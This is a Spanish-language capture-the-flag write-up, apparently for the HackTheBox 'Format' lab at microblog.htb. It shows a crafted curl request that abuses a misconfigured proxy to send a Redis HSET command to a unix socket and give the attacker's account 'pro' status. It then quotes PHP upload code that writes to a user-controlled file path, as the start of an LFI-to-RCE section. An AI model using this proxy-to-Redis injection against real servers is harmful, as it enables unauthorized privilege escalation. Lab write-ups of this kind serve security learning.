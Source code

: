 ```php
        $redis = new Redis();
        $redis->connect('/var/run/redis/redis.sock');
```

Esta conectandose a Redis para establecer una conexion a travez del archivo ```/var/run/redis/redis.sock```.

Despues basicamente si el usuario tiene la propiedad "pro" establecida como "true", retorna "true", y si no, se retornará la cadena "false", y como tenemos un implementacion incorrecta en el proxy, entonces podemos interactuar con el archivo ```/var/run/redis/redis.sock``` para modificar los valores de la propiedad "pro", par convertir nuestra cuenta de usuario en pro, y lo podemos hacer de esta manera:

```curl -X HSET "http://microblog.htb/static/unix:%2Fvar%2Frun%2Fredis%2Fredis.sock:carta%20pro%20true%20a/b"```

Y nos debe de regresar algo como esto: 

![](/assets/img/htb-format/10_000.png)

Y ya somos pro

![](/assets/img/htb-format/11.png)

Y observa como ahora ya nos deja subir imagenes

## LFI to RCE

Si volvemos a revisar el codigo fuente para subir una imagen, vemos que si intentamos subir un php no va a funcionar por que se esta filtrando

```php
if (isset($_FILES['image']) && isset($_POST['id'])) {
    if(isPro() === "false") {
        print_r("Pro subscription required to upload images");
        header("Location: /edit?message=Pro subscription required&status=fail");
        exit();
    }
    $image = new Bulletproof\Image($_FILES);
    $image->setLocation(getcwd() . "/../uploads");
    $image->setSize(100, 3000000);
    $image->setMime(array('png'));

    if($image["image"]) {
        $upload = $image->upload();

        if($upload) {
            $upload_path = "/uploads/" . $upload->getName() . ".png";
            $html = "<div class = \"blog-image\"><img src = \"{$upload_path}\" /></div>";
            chdir(getcwd() . "/../content");
            $post_file = fopen("{$_POST['id']}", "w");
            fwrite($post_file, $html);
            fclose($post_file);
            $order_file = fopen("order.txt", "a");
            fwrite($order_file, $_POST['id'] . "\n");  
            fclose($order_file);
            header("Location: /edit?message=Image uploaded successfully&status=success");
        }
        else {
            header("Location: /edit?message=Image upload failed&status=fail");
        }
    }
}
```
